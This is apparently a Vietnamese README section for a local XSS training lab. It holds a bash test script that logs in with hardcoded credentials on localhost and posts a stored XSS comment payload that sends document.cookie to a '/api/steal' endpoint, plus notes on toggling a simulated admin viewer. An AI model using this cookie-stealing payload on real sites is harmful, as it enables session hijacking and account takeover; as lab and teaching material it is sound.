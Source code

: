 ## Test Script

Tạo file `test-auto.sh`:

```bash
#!/bin/bash

echo "🧪 Testing Auto XSS Detection..."
echo ""

# Login
echo "1. Login as user1..."
curl -s -X POST http://localhost:3000/api/login \
  -H "Content-Type: application/json" \
  -d '{"username":"user1","password":"password1"}' | jq
echo ""

# Post XSS
echo "2. Post XSS payload..."
curl -s -X POST http://localhost:3000/api/comment \
  -H "Content-Type: application/json" \
  -H "Cookie: auth=user1:password1" \
  -d '{"comment":"<script>fetch(\"/api/steal?cookie=\"+document.cookie)</script>"}' | jq
echo ""

echo "3. Waiting 6 seconds for auto-test..."
sleep 6
echo ""

echo "✅ Done! Check server console for stolen cookie log."
```

## Disable Auto-Test

Nếu muốn tắt auto-test, comment out setTimeout block:

```javascript
// AUTO-TEST: Giả lập admin xem comment sau 5 giây
// console.log("⏰ [AUTO-TEST] Admin sẽ xem comment sau 5 giây...");
//
// setTimeout(() => {
//     // ... auto-test code ...
// }, 5000);
```

## Customize Delay

Thay đổi thời gian delay (mặc định 5000ms = 5s):

```javascript
setTimeout(() => {
    // ...
}, 3000); // 3 giây

// hoặc
setTimeout(() => {
    // ...
}, 10000); // 10 giây
```
